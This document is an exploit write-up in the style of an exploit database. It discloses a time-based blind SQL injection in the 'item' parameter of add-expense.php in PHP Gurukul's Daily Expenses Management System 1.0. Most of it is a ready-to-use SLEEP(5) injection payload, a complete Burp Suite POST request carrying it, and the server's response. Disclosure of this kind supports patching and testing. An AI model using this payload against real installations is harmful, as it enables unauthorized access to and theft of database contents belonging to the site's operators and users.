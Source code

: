 # Exploit Title: Daily Expenses Management System 1.0 - 'item' SQL Injection (Time-based blind)

## Description:
Daily Expenses Management System version 1.0, developed by PHP Gurukul, contains a time-based blind SQL injection vulnerability in the 'add-expense.php' page. An attacker can exploit the 'item' parameter in a POST request to execute arbitrary SQL commands in the backend database. This can be done by injecting specially crafted SQL queries that make the database perform time-consuming operations, thereby confirming the presence of the SQL injection vulnerability based on the delay in the server's response.

- **Date:** 12-03-2024
- **Exploit Author:** Ayush Patidar
- **Vendor Homepage:** [https://phpgurukul.com/](https://phpgurukul.com/)
- **Software Link:** [https://phpgurukul.com/daily-expense-tracker-using-php-and-mysql/](https://phpgurukul.com/daily-expense-tracker-using-php-and-mysql/)
- **Version:** 1.0
- **Tested on:** Windows & Xampp

---

## Feature: Add Expenses
- **Vulnerable file:** add-expense.php
- **Vulnerable parameters:**
	- item
	- costitem

---

## PoC
- **URL:** [http://example.com/dets/add-expense.php](http://example.com/dets/add-expense.php)
- **Method:** POST

---

## Payload
```http
dateexpense=1337-11-11&item=1' AND (SELECT 8429 FROM (SELECT(SLEEP(5)))IWeV) AND 'hmPP'='hmPP&costitem=2&submit=
```
## Burpsuite Requests

```http
POST /dets/add-expense.php HTTP/1.1
Host: example.com
Content-Length: 139
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://example.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://example.com/dets/add-expense.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,hi;q=0.8
Cookie: PHPSESSID=ofjno6jio72kc9u6tnbvu1cit7
Connection: close

dateexpense=2024-03-12&item=1%27+AND+%28SELECT+8429+FROM+%28SELECT%28SLEEP%285%29%29%29IWeV%29+AND+%27hmPP%27%3D%27hmPP&costitem=10&submit=

```
## Burpsuite Response

```http
HTTP/1.1 200 OK
Date: Wed, 13 Mar 2024 00:10:39 GMT
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
X-Powered-By: PHP/8.0.30
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 6455
Connection: close
Content-Type: text/html; charset=UTF-8

<script>alert('Expense has been added');</script><script>window.location.href='manage-expense.php'</script><!DOCTYPE html>
<html>
<head>
...

```
